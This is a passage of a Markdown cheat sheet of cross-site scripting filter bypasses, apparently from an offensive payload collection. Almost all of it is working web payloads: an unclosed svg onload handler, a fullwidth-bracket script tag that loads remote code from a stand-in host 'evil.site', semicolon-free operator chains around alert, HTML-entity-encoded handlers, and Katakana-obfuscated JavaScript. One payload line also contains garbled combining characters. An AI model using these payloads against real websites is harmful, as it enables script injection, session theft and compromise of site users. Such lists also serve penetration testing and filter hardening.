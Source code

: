 ```javascript
XSSObject.proxy(window, "alert", "window.alert", false);
```

### Bypass ">" using nothing

You don't need to close your tags.

```javascript
<svg onload=alert(1)//
```

### Bypass "<" using ＜

```javascript
[̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
```

### Bypass ";" using another character

```javascript
"te" * alert("*") * "xt";
"te" / alert("/") / "xt";
("te" % alert("%")) % "xt";
"te" - alert("-") - "xt";
"te" + alert("+") + "xt";
"te" ^ alert("^") ^ "xt";
"te" > alert(">") > "xt";
"te" < alert("<") < "xt";
("te" == alert("==")) == "xt";
"te" & alert("&") & "xt";
"te", alert(","), "xt";
"te" | alert("|") | "xt";
"te" ? alert("ifelsesh") : "xt";
"te" in alert("in") in "xt";
"te" instanceof alert("instanceof") instanceof "xt";
```

### Bypass using HTML encoding

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

### Bypass using Katana

Using the [Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
javascript: (([, ウ, , , , ア] = [] + {}),
([ネ, ホ, ヌ, セ, , ミ, ハ, ヘ, , , ナ] = [!!ウ] + !ウ + ウ.ウ))[
  (ツ = ア + ウ + ナ + ヘ + ネ + ホ + ヌ + ア + ネ + ウ + ホ)
][ツ](ミ + ハ + セ + ホ + ネ + "(-~ウ)")();
```
